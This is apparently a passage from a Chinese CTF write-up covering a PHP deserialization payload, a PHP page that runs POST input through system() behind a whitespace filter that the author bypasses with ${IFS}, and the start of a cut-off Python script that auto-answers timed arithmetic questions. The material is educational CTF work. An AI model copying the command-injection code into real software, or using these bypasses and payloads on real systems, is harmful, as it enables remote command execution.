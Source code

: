 输出结果为

O:3:"web":2:{s:2:"kw";O:2:"re":1:{s:4:"chu0";O:3:"pwn":2:{s:4:"dusk";N;s:4:"over";O:4:"Misc":2:{s:7:"nothing";N;s:4:"flag";N;}}}s:2:"dt";N;}

得到flag

####  RCEisamazingwithspace

```php
 <?php
highlight_file(__FILE__);
$cmd = $_POST['cmd'];
// check if space is present in the command
// use of preg_match to check if space is present in the command
if (preg_match('/\s/', $cmd)) {
    echo 'Space not allowed in command';
    exit;
}

// execute the command
system($cmd); 
```

发现屏蔽了空格符号

'\s'表示可以匹配任意一个空白字符，就比如说：换页符、换行符、回车和制表符等。

这里尝试了各种绕过，发现只有${IFS}可以

输入获得flag

![](https://s2.loli.net/2024/11/16/1JORp6hqAge72ir.png)

#### 数学大师

发现需要我们不断在3s内答出加减乘除，这里使用ai辅助写出了一个脚本

```php
import requests
import re
import time

# 设置会话对象
session = requests.Session()

# 目标网址
url = 'http://gz.imxbt.cn:20472/'


def get_question(html):
    # 使用正则表达式从HTML中提取数学问题
    match = re.search(r'Tell me in \d+ second (\d+)([+\-*/÷×])(\d+)', html)
    if match:
        num1 = int(match.group(1))
        num2 = int(match.group(3))
        operator = match.group(2)
        return num1, num2, operator
    return None, None, None


def solve_question(num1, num2, operator):
    # 根据操作符计算结果
    if operator == '+':
        return num1 + num2
    elif operator == '-':
        return num1 - num2
    elif operator == '*' or operator == '×':
```